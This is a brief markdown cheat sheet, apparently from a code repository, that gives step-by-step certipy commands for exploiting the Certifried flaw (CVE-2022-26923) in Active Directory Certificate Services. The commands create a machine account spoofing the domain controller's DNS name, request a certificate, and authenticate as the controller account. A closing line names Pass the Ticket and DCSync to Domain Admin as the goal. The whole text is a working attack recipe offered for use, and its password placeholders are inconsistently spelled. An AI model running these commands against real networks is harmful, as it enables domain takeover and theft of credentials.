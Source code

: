 # Certifried CVE-2022-26923 (Need ADCS to work)

## Exploitation

 - certipy account create -u USER@DOMAIN -p 'PASSWORD' -user 'CERTIFRIEDPC' -pass 'CERTIFRIEDPASS' -dns 'FQDN_DC'

 - certipy req -u 'CERTIFRIEDPC$'@DOMAIN -p 'CERTIFREIDPASS' -target CA_FQDN -ca CA_NAME -template Machine

 - certipy auth -pfx PFX_FILE -username 'DC$' -domain DOMAIN -dc-ip DC_IP

## With this attack, you Pass the Ticket, then DCSync to Domain Admin
